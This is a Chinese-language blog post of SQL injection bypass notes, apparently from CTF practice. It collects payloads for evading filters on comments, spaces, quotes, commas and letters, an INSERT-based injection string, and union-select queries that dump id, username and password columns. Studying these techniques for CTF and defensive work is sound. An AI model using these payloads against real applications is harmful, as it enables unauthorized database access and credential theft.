 ```yaml
---
title: sql注入技巧
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - 注入
    - SQL
description: sql注入的一些绕过技巧
abbrlink: 1c713f30
tags:
---
```



# sql注入技巧

## 1 绕过检查：
### 1.1 注释：
单个的：
```sql
#
%23
-- （两个-加一个空格）
--+
;%00
```
分开两个的：
```sql
/*
*/
```

### 1.2 等号：
```sql
a=a
a like a
a regexp a	(正则)
!(a<>a)
```
### 1.3 or：
```sql
||
```	
### 1.4 空格：
```sql
/**/
and(1=0)		//利用小括号
%09 %0a %0c %0b %0d 	//空白字符
```

> 过滤空格之后检测，可以采用```?id=(1)=(2)```的方法

### 1.5 无法传入字符串：
转换成16进制然后前面加0x

### 1.6 单引号绕过
方法1. 使用单引号的编码%20
方法2. 利用前一个的单引号闭合后面的



## 2 跳过第一个数据的方法：
```sql
limit 1 offset 1
```

> ```limit``` 与 ```offset```：从下标0开始
> ```offset X```   是跳过X个数据
> ```limit Y```    是选取Y个数据
> ```limit  X,Y``` 中X表示跳过X个数据，读取Y个数据

当```limit```后面跟两个参数的时候，第一个数表示要跳过的数量，后一位表示要取的数量,
例如```select* from article LIMIT 1,3``` 就是跳过1条数据,从第2条数据开始取，取3条数据，也就是取2,3,4三条数据

当 ```limit```后面跟一个参数的时候，该参数表示要取的数据的数量
例如```select* from article LIMIT 3```  表示直接取前三条数据，类似sqlserver里的```top```语法。

当 ```limit```和```offset```组合使用的时候，```limit```后面只能有一个参数，表示要取的的数量,```offset```表示要跳过的数量 。
例如```select * from article LIMIT 3 OFFSET 1 ```表示跳过1条数据,从第2条数据开始取，取3条数据，也就是取2,3,4三条数据



## 3 插入函数insert()的相关

> 插入函数格式

```insert(a,'a',a,'a')```  插入一条（一条里面4个变量）
```insert(a,'a',a,'a'),(b,'b',b,'b')```  插入两条（一条里面4个变量）
比如说构造```q'),('a','a',database(),'a')%23```，进行插入两条数据的sql注入
或者放弃最后一个变量，构造```q'),('a',database(),'```，利用第二个可控变量进行sql注入


## 4 当逗号","被过滤后
(1)一般时间延迟盲注都是用 ```if(exp1,exp2,epx3)``` 
逗号被过滤后可以使用 ```select case when (条件) then 代码1 else 代码 2 end```;
(2)在 exp1 中要用到 ```substr()```来进行剪切，这个函数 ```substr(str,1,1)``` 又是存在 ```,``` , 
于是这里又用 ```substr (str) from 1 for 1``` 来绕过```,```的限制


## 5 遇到两张表都有名字叫id，password的字段时
例如：
数据库叫```geek```；在```geek```下有两张表，分别叫```geekuser```,```l0ve1ysq1```
当想查询```l0ve1ysq1```中的```id```，```password```的字段时，
使用```union select 1,2,group_concat(char(58,58,58),id,username,password) from geek.l0ve1ysq1```

## 6 php中preg_match()函数过滤掉字母等东西时
使用```char()```函数绕过，比如说 ```(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))``` 是 ```/flagg ```

## 7 如果当前数据库不是flag所在的数据库，最后得到字段名之后查找应该变成
```union select 1,2,group_concat(char(58,58,58),id,username,password) from ctf.Flag```
